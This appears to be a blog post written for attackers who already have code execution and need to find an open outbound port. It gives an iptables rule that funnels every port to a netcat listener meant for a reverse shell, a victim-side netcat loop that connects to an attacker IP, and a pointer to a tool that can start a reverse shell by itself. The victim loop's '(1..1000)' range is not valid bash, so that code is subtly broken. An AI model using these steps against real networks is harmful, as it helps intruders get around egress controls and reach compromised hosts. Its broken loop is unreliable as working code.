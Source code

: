 +++
menu = "main"
date = "2017-02-07T19:44:18-05:00"
title = "Finding Your Way Out From Behind Firewalls with Strict Outbound Rules"
Description = "Finding Your Way Out From Behind Firewalls with Strict Outbound Rules"
+++


You've achieved code execution on a machine, but for some reason your reverse shell isn't pinging you back.
Or that wget/tftp command isn't downloading your recon/post-exploitation tools. There's a chance you're
dealing with an egress problem. Typical ports that need outboud access are blocked. You try the main ones
you can think of (21, 22, 53, 80, 8080, 443), but none of them seem to be connecting. Do you start at 1 and
manually test? NO! The hallmarks of any decent programmer/hacker is laziness. So let's get lazy.

## The Concept

There's a few methods to achieve this, but at each of their cores, these 2 things are happening.

   * The attacking machine (66.66.66.66) needs to listen for something on every port.
   * Your victim machine (23.23.23.23.) needs to try to hit your machine on every port.


### netcat and iptables

__For the attacker__

Set all ports to redirect to a listener you've started.

~~~bash.prettyprint
iface=eth0
ip=66.66.66.66
lport=8080

iptables -t nat -A PREROUTING -i $iface -p tcp --dport 1:65535 -j DNAT --to-destination $ip:$lport
nc -nvlp $lport
~~~


__For the victim machine__

*nix: 

~~~bash.prettyprint
for port in (1..1000); do
  echo "Trying $port"
  nc -z -w1 66.66.66.66 $port
done
~~~

Netcat DOES accept ranges, so the following also works: `nc -w1 66.66.66.66 1-1000`. I usually find
that the bash loop's logging makes it easier to ID what worked if you walk away for a bit while it
runs.

### wireshark

If you have a GUI available on the attacking machine, you can repeat the above scenario, but
substitute the iptables and nc commands for wireshark with a sane filter; something like 

~~~bash.prettyprint
ip.src == 23.23.23.23
~~~

You should be able to watch the window for incoming packets and determine on which port
the victim machine was able to connect.

### egress-buster

If you've the ability to get files onto the target machine, the most robust option is
[egress-buster](https://github.com/trustedsec/egressbuster). The readme does a great job explaining
usage, but it's basically the first method, using iptables and python. It consists of two scripts,
a client and a server. It also has an option to automatically start the reverse shell once it finds
an available outgoing part.

